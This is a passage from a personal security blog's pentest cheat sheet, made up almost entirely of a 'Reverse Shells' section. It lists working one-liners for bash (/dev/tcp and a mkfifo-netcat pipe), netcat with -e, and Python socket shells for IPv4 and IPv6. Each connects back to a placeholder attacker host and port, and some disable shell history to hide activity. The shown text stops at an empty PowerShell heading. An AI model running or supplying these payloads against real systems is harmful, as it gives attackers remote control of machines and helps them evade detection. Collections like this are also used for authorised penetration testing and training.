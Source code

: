 [**slyone999’s Security Blog**] (https://slyone999.github.io)

[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)

* TOC
{:toc}

# Pentest

## Reverse Shells

### Bash

```
root@kali:$ bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
root@kali:$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```



### Netcat

```
root@kali:$ {nc.tradentional|nc|ncat|netcat} <LHOST> <LPORT> {-e|-c} /bin/bash
```



### Python


#### IPv4

```
root@kali:$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()'
root@kali:$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()'
```


#### IPv6

```
root@kali:$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()'
root@kali:$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()'
```



### PowerShell
